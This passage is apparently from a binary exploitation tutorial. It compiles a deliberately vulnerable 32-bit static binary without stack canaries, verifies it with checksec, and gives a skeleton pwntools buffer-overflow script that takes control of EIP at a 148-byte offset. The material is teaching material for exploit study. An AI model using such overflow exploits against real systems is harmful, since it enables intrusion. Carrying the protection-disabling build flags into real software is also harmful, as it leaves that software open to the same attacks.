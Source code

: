 Since the binary is not big enough to give us a decent number of ROP gadgets, we will cheat a bit and compile the binary as a statically linked ELF. This should include library code in the final executable and bulk up the size of the binary. We also mark the writable regions of memory as non-executable.

```
gcc -m32 -fno-stack-protector -static -znoexecstack -o ./build/1_staticnx ./src/1_staticnx.c
```

We can verify that the binary has the NX protection enabled by using the checksec script. We can also check that the file is statically compiled with file.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ checksec 1_staticnx
[*] '/vagrant/lessons/6_bypass_nx_rop/build/1_staticnx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ file 1_staticnx
1_staticnx: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=18a84fc7499b620b7453b9d37d7ba97dc356d7b2, not stripped
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$
```

### Obtaining EIP Control

First of all, we need to determine the offsets for EIP control. For the sake of brevity, I will use the offset of 148 bytes. When you follow along in the lesson, please do try obtaining the offset yourself. A rough skeleton exploit script is given as follows:

```
#!/usr/bin/python

from pwn import *

def main():
    # Start the process
    p = process("../build/1_staticnx")

    # Craft the payload
    payload = "A"*148 + p32(0xdeadc0de)
    payload = payload.ljust(1000, "\x00")

    # Print the process id
    raw_input(str(p.proc.pid))

    # Send the payload
    p.send(payload)

    # Transfer interaction to the user
    p.interactive()

if __name__ == '__main__':
    main()
```
